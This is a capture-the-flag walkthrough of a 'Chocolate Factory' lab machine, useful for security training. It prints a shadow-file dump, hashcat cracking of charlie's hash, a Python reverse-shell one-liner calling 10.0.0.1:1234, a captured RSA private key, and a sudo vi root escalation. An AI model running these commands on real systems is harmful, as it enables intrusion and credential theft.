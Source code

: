 # Chocolate Factory


1. Enumerate with nmap. We see many ports open with much of the same content, but on port 113 we see `http://localhost/key_rev_key <- You will find the key here!!!`. Navigate to `http://<ip address>/key_rev_key` and we download the file. Use `file key_rev_key` and we see it's an ELF executable file, so make it executable with `chmod +x key_rev_key` and run it. It asks for a name, but when we try any name (like `charlie`) we get the output `Bad name!`. Instead of guessing names, we can just use a text editor to view the contents of the file, and we find the key is `-VkgXhFf6sAEcAwrC6YR-SZbiuSb8ABXeQuvhcGSQzY=`. We can also use the strings program to get all the strings from the file

2. First, we see that ftp has anonymous login allowed, so let's login as anonymous with `ftp <ip address>`. Use `ls` and we find a jpg file called `gum_room.jpg`. Download it with `get gum_room.jpg`, and we see it's a picture of doublemint gum. Use exiftool, but we don't find anything interesting. Try using steghide to find any hidden files `steghide extract -sf gum_room.jpg`, and we find a file was extracted with no password. b64 probably stands for base64, so we use cyberchef to decode it. We find the contents of /etc/shadow, and we have the hash for charlie's password
```
daemon:*:18380:0:99999:7:::
bin:*:18380:0:99999:7:::
sys:*:18380:0:99999:7:::
sync:*:18380:0:99999:7:::
games:*:18380:0:99999:7:::
man:*:18380:0:99999:7:::
lp:*:18380:0:99999:7:::
mail:*:18380:0:99999:7:::
news:*:18380:0:99999:7:::
uucp:*:18380:0:99999:7:::
proxy:*:18380:0:99999:7:::
www-data:*:18380:0:99999:7:::
backup:*:18380:0:99999:7:::
list:*:18380:0:99999:7:::
irc:*:18380:0:99999:7:::
gnats:*:18380:0:99999:7:::
nobody:*:18380:0:99999:7:::
systemd-timesync:*:18380:0:99999:7:::
systemd-network:*:18380:0:99999:7:::
systemd-resolve:*:18380:0:99999:7:::
_apt:*:18380:0:99999:7:::
mysql:!:18382:0:99999:7:::
tss:*:18382:0:99999:7:::
shellinabox:*:18382:0:99999:7:::
strongswan:*:18382:0:99999:7:::
ntp:*:18382:0:99999:7:::
messagebus:*:18382:0:99999:7:::
arpwatch:!:18382:0:99999:7:::
Debian-exim:!:18382:0:99999:7:::
uuidd:*:18382:0:99999:7:::
debian-tor:*:18382:0:99999:7:::
redsocks:!:18382:0:99999:7:::
freerad:*:18382:0:99999:7:::
iodine:*:18382:0:99999:7:::
tcpdump:*:18382:0:99999:7:::
miredo:*:18382:0:99999:7:::
dnsmasq:*:18382:0:99999:7:::
redis:*:18382:0:99999:7:::
usbmux:*:18382:0:99999:7:::
rtkit:*:18382:0:99999:7:::
sshd:*:18382:0:99999:7:::
postgres:*:18382:0:99999:7:::
avahi:*:18382:0:99999:7:::
stunnel4:!:18382:0:99999:7:::
sslh:!:18382:0:99999:7:::
nm-openvpn:*:18382:0:99999:7:::
nm-openconnect:*:18382:0:99999:7:::
pulse:*:18382:0:99999:7:::
saned:*:18382:0:99999:7:::
inetsim:*:18382:0:99999:7:::
colord:*:18382:0:99999:7:::
i2psvc:*:18382:0:99999:7:::
dradis:*:18382:0:99999:7:::
beef-xss:*:18382:0:99999:7:::
geoclue:*:18382:0:99999:7:::
lightdm:*:18382:0:99999:7:::
king-phisher:*:18382:0:99999:7:::
systemd-coredump:!!:18396::::::
_rpc:*:18451:0:99999:7:::
statd:*:18451:0:99999:7:::
_gvm:*:18496:0:99999:7:::
charlie:$6$CZJnCPeQWp9/jpNx$khGlFdICJnr8R3JC/jTR2r7DrbFLp8zq8469d3c0.zuKN4se61FObwWGxcHZqO2RJHkkL1jjPYeeGyIJWE82X/:18535:0:99999:7:::
```

3. Crack charlie's hash using hashcat. Copy the hash `$6$CZJnCPeQWp9/jpNx$khGlFdICJnr8R3JC/jTR2r7DrbFLp8zq8469d3c0.zuKN4se61FObwWGxcHZqO2RJHkkL1jjPYeeGyIJWE82X/` into a file (let's call it `hash.txt`) and use `hashcat -a 0 -m 1800 hash.txt rockyou.txt`. We find that charlie's password is `cn7824`
`$6$CZJnCPeQWp9/jpNx$khGlFdICJnr8R3JC/jTR2r7DrbFLp8zq8469d3c0.zuKN4se61FObwWGxcHZqO2RJHkkL1jjPYeeGyIJWE82X/:cn7824`

4. We try logging into ssh with `ssh charlie@<ip address>`, but the password doesn't work. We know that port 80 is open and is probably running a web server, and once we visit it we see that it has a login page. Log in as `charlie` with the password and it takes us to a page where we can execute commands. Use `whoami` to see what we're logged in as, and we find `www-data`. We want to log in as charlie, so we use `su charlie`, but it doesn't work, which we verify with `whoami` again. Changing directories doesn't seem to work either, and the working directory seems to reset to ` /var/www/html ` each time we run a command. I bypassed this by using `&&`, so if I execute `cd /home/charlie && ls` I'm able to view the contents of charlie's directory. When I try to view user.txt, however, I find that I have to be logged in as charlie to read it

5. Let's try using a reverse shell. Run this command, listen with netcat, and we have a reverse shell! Stabilize the shell with `python -c 'import pty; pty.spawn("/bin/bash")'`, and then use `su charlie` and enter the password to log in as charlie, and..... it doesn't work. Let's `cd /home/charlie` to see if we can find anything.
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

6. If we use `ls -al` on charlie's home directory, we see that we have read permissions to `teleport` and `teleport.pub`, but not to user.txt. We find that they're the public and private keys to log in as charlie with ssh. Using [this](https://docs.rackspace.com/support/how-to/logging-in-with-an-ssh-private-key-on-linuxmac/) guide, we copy the private key into a file, change the file permissions, and then use the -i option in ssh to login with the private key as charlie. Now we can go to `/home/charlie` and `cat user.txt` to find `flag{cd5509042371b34e4826e4838b522d2e}`
```
-rw-r--r-- 1 charlie charley 1675 Oct  6  2020 teleport
-rw-r--r-- 1 charlie charley  407 Oct  6  2020 teleport.pub
-rw-r----- 1 charlie charley   39 Oct  6  2020 user.txt
```
```
www-data@chocolate-factory:/home/charlie$ cat teleport
cat teleport
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEA4adrPc3Uh98RYDrZ8CUBDgWLENUybF60lMk9YQOBDR+gpuRW
1AzL12K35/Mi3Vwtp0NSwmlS7ha4y9sv2kPXv8lFOmLi1FV2hqlQPLw/unnEFwUb
L4KBqBemIDefV5pxMmCqqguJXIkzklAIXNYhfxLr8cBS/HJoh/7qmLqrDoXNhwYj
B3zgov7RUtk15Jv11D0Itsyr54pvYhCQgdoorU7l42EZJayIomHKon1jkofd1/oY
fOBwgz6JOlNH1jFJoyIZg2OmEhnSjUltZ9mSzmQyv3M4AORQo3ZeLb+zbnSJycEE
RaObPlb0dRy3KoN79lt+dh+jSg/dM/TYYe5L4wIDAQABAoIBAD2TzjQDYyfgu4Ej
Di32Kx+Ea7qgMy5XebfQYquCpUjLhK+GSBt9knKoQb9OHgmCCgNG3+Klkzfdg3g9
zAUn1kxDxFx2d6ex2rJMqdSpGkrsx5HwlsaUOoWATpkkFJt3TcSNlITquQVDe4tF
w8JxvJpMs445CWxSXCwgaCxdZCiF33C0CtVw6zvOdF6MoOimVZf36UkXI2FmdZFl
kR7MGsagAwRn1moCvQ7lNpYcqDDNf6jKnx5Sk83R5bVAAjV6ktZ9uEN8NItM/ppZ
j4PM6/IIPw2jQ8WzUoi/JG7aXJnBE4bm53qo2B4oVu3PihZ7tKkLZq3Oclrrkbn2
EY0ndcECgYEA/29MMD3FEYcMCy+KQfEU2h9manqQmRMDDaBHkajq20KvGvnT1U/T
RcbPNBaQMoSj6YrVhvgy3xtEdEHHBJO5qnq8TsLaSovQZxDifaGTaLaWgswc0biF
uAKE2uKcpVCTSewbJyNewwTljhV9mMyn/piAtRlGXkzeyZ9/muZdtesCgYEA4idA
KuEj2FE7M+MM/+ZeiZvLjKSNbiYYUPuDcsoWYxQCp0q8HmtjyAQizKo6DlXIPCCQ
RZSvmU1T3nk9MoTgDjkNO1xxbF2N7ihnBkHjOffod+zkNQbvzIDa4Q2owpeHZL19
znQV98mrRaYDb5YsaEj0YoKfb8xhZJPyEb+v6+kCgYAZwE+vAVsvtCyrqARJN5PB
la7Oh0Kym+8P3Zu5fI0Iw8VBc/Q+KgkDnNJgzvGElkisD7oNHFKMmYQiMEtvE7GB
FVSMoCo/n67H5TTgM3zX7qhn0UoKfo7EiUR5iKUAKYpfxnTKUk+IW6ME2vfJgsBg
82DuYPjuItPHAdRselLyNwKBgH77Rv5Ml9HYGoPR0vTEpwRhI/N+WaMlZLXj4zTK
37MWAz9nqSTza31dRSTh1+NAq0OHjTpkeAx97L+YF5KMJToXMqTIDS+pgA3fRamv
ySQ9XJwpuSFFGdQb7co73ywT5QPdmgwYBlWxOKfMxVUcXybW/9FoQpmFipHsuBjb
Jq4xAoGBAIQnMPLpKqBk/ZV+HXmdJYSrf2MACWwL4pQO9bQUeta0rZA6iQwvLrkM
Qxg3lN2/1dnebKK5lEd2qFP1WLQUJqypo5TznXQ7tv0Uuw7o0cy5XNMFVwn/BqQm
G2QwOAGbsQHcI0P19XgHTOB7Dm69rP9j1wIRBOF7iGfwhWdi+vln
-----END RSA PRIVATE KEY-----
```
```
www-data@chocolate-factory:/home/charlie$ cat teleport.pub
cat teleport.pub
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDhp2s9zdSH3xFgOtnwJQEOBYsQ1TJsXrSUyT1hA4ENH6Cm5FbUDMvXYrfn8yLdXC2nQ1LCaVLuFrjL2y/aQ9e/yUU6YuLUVXaGqVA8vD+6ecQXBRsvgoGoF6YgN59XmnEyYKqqC4lciTOSUAhc1iF/EuvxwFL8cmiH/uqYuqsOhc2HBiMHfOCi/tFS2TXkm/XUPQi2zKvnim9iEJCB2iitTuXjYRklrIiiYcqifWOSh93X+hh84HCDPok6U0fWMUmjIhmDY6YSGdKNSW1n2ZLOZDK/czgA5FCjdl4tv7NudInJwQRFo5s+VvR1HLcqg3v2W352H6NKD90z9Nhh7kvj charlie@chocolate-factory
```

7. Now we want to escalate our privileges. Use `sudo -l` to see if there are any commands we can run as root, and we find that we can run `vi` as root. Use `sudo vi` to enter vim. Then we can use vim's built in terminal by typing in `:term` and hitting enter. We can make sure that we're root with `whoami`. Navigate to the root folder with `cd /root`. We see that there's a file called `root.py`. We try to run it with python3, but get an error. The hint says to use python instead, so we use it, enter the key we found earlier `b'-VkgXhFf6sAEcAwrC6YR-SZbiuSb8ABXeQuvhcGSQzY='` and get `flag{cec59161d338fef787fcb4e296b42124}`
```
charlie@chocolate-factory:/home/charlie$ sudo -l
Matching Defaults entries for charlie on chocolate-factory:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User charlie may run the following commands on chocolate-factory:
    (ALL : !root) NOPASSWD: /usr/bin/vi

```
